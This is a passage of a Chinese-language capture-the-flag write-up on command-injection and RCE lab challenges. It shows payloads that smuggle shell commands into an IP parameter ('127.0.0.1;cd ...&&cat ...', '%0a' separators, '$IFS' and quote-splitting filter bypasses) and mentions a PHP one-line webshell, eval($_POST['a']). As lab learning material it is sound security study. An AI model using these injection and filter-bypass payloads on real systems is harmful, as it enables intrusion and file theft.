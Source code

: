 ![day1a9.png](https://s2.loli.net/2025/01/17/FNYA1isKdmQwJCS.png)  
发现是个文件，由题知过滤了目录分隔符，遂用管道符。  
>127.0.0.1;cd flag_is_here&&ls  
  
![day1a10.png](https://s2.loli.net/2025/01/17/DisxM8RPvUnd5YK.png)  
* 拿到文件名。  
>127.0.0.1;cd flag_is_here&&cat flag_19964266584736.php  
  
直接拿到flag。  
![day1a11.png](https://s2.loli.net/2025/01/17/F2pQELXCdzgDlkT.png)  
  
    
### 过滤运算符
没什么好说的，和第一题一样直接拿就行了，这题没出好。  
  
    
### 综合过滤
* 看看源码
![day1a12.png](https://s2.loli.net/2025/01/17/QiYxVJg8kHlqat7.png)  

发现大部分东西全过滤掉了  
查阅资料得知%0a可以当作命令分隔符，遂尝试get注入。  
>/?ip=127.0.0.1%0als#  
  
![day1a13.png](https://s2.loli.net/2025/01/17/zTEMIQF4jDghN5J.png)  
  
接下来常规流程
>?ip=127.0.0.1%0acd$IFS$1fl''ag_is_here%0als
/?ip=127.0.0.1%0acd$IFS$1fl''ag_is_here%0ac''at$IFS$2fl''ag_29363263626208.php#  
  
拿到flag。  
![day1a15.png](https://s2.loli.net/2025/01/17/6nSl3Ji1Z5cVmNx.png)  
  
      
------
## RCE-labs  
  
### LEVEL 0  
没什么好说的，直接拿了flag就走 )  
  
    
### LEVEL 1  
  
一眼看到一句话木马的语句：eval($_POST['a']);  
直接拿  
![day1b1.png](https://s2.loli.net/2025/01/17/57MAqGwW8DLgO6f.png)  
  
拿到flag.  
  
![day1b2.png](https://s2.loli.net/2025/01/17/xjK6dDQ2M17IsWT.png)  
  